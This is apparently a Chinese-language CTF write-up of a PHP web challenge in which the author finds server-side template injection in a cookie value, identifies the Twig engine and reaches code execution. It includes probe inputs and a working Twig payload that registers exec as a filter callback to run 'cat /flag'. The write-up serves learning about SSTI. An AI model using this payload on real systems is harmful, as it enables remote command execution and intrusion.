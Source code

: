 ![[Pasted image 20221120211116.png]]

---
首页长这样

![[Pasted image 20221120211132.png]]

等等，题目不是stable吗，这里咋变成subtle了QwQ

![[Pasted image 20221120211200.png]]

```php
/flag.php
```
![[Pasted image 20221120211327.png]]

输入`username`上传之后是这样

![[Pasted image 20221120211704.png]]

POST的内容是`username=CrackTC&submit=submit`

同时设置`cookie`

![[Pasted image 20221120211901.png]]

点击`Logout`后实际上是`GET /logout.php`

---
尝试从`cookie`值入手，看看是不是`SSTI`之类的
```php
user={{1-2}}
```
![[Pasted image 20221120212926.png]]

芜湖
```twig
user={{phpinfo()}}
```
![[Pasted image 20221120213341.png]]

括号被过滤掉了好像

可恶，之后居然就没思路了呜呜呜

搜了下网上有个decision tree长这样

![[Pasted image 20221120214710.png]]

先不管咋注入，确定模板引擎先
```twig
user={{7*'7'}}
```
![[Pasted image 20221120214943.png]]

这里回显49，说明是`Twig`
```twig
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /flag")}}
```
![[Pasted image 20221120220302.png]]

这个看字面意思好像是先注册一个回调，当获取一个未定义的过滤器时候调用这个回调，并向它传递试图获取的过滤器名字，所以最终就变成了向`exec`传递`cat /flag`，也就获取到了`flag`（推测之前回显`What do you want to do?!`是我没搞懂语法整出报错了，并不是括号被过滤了QAQ）

#Web #HTTP #twig #SSTI #RCE #PHP #Header 